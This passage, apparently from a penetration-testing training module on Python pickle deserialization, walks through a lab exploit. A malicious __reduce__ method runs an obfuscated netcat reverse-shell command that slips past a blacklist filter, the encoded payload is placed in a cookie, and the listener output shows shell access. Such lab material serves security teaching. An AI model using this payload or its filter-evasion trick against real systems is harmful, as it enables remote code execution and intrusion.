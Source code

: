 With this in mind, we can update `exploit-rce.py` to contain our payload, which should bypass the blacklist filter and give us a reverse shell.

```python
...
class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv 172.17.0.1 9999 -e /bin/s''h",)
...

```

Running the file gives us the base64-encoded value:

```shell
python3 exploit-rce.py

gASVLwAAAAAAAACMBXBvc2l4lIwGc3lzdGVt...SNIP...SFlFKULg==

```

We can start a Netcat listener locally, and then paste the value from above into cookie value and reload the page to receive a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:32823.
ls -l
total 56
-rw-r--r--    1 root     root           184 Oct 11 12:55 Dockerfile
drwxr-xr-x    1 root     root          4096 Oct 11 13:10 __pycache__
-rw-r--r--    1 root     root          2038 Oct 11 12:57 app.py
-rw-r--r--    1 root     root            37 Oct 10 16:51 flag.txt
-rw-r--r--    1 root     root         20480 Oct 11 13:10 htbooks.sqlite3
-rw-r--r--    1 root     root            27 Oct 11 12:59 requirements.txt
drwxr-xr-x    4 root     root          4096 Oct 10 16:51 static
drwxr-xr-x    2 root     root          4096 Oct 10 16:51 templates
drwxr-xr-x    1 root     root          4096 Oct 10 16:51 util

```

Note that using this cookie value with result in an `Internal Server Error` since we are not passing a legitimate `util.auth.Session` object to `util.auth.cookieToSession`, but the command still ran, so it is alright in our case.

![](4Y5gIrV2XT4v.png)


# Tools of the Trade (Python Deserialization)
